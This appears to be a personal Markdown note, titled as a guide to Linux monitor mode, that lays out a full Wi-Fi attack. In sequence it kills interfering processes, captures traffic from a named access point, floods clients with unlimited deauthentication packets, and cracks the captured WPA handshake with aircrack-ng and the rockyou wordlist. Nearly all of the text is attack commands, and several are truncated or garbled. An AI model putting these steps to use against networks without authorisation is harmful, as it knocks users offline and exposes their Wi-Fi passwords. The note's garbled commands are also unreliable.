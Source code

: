 
# How to enable monitor mode in linux 
IN order to start monitor mode you will need to r![[Pasted image 20240119163350.png]]

! See version of Kali ==cat /etc/os==-release or ==uname -a==

! See interfaces ip addr ==iwconfig==

!kill processes sudo airmon-ng check kill !Start monitor mode sudo airmon-ng start wlan0 
!Verify that monitor mode is used sudo airmon-ng 
!You could also use iwconfig to check that interface is in monitor mode: iwconfig 
! Get the AP's MAC address and channel sudo airodump-ng wlan0mon 

! AP-MAC & channel - you need to select your own here: ESSID: 90:9A:4A:B8:F3:FB Channel used by AP for SSID: 2 

!1st Window: !Make sure you replace the channel number and bssid with your own 

!Replace hack1 with your file name like capture1 or something ==sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon== 

!2nd Window - deauth attack !Make sure you replace the bssid with your own ==sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon== 

!Use Wireshark to open hack file ==wireshark hack1-01.cap== 

!Filter Wireshark messages for EAPOL eapol !Stop monitor mode ==airmon-ng stop wlan0mon== 

!Crack file with Rock you or another wordlist !Make sure you have rockyou in text format (unzip file on Kali) !Replace hack1-01.cap with your file name -==aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.tx==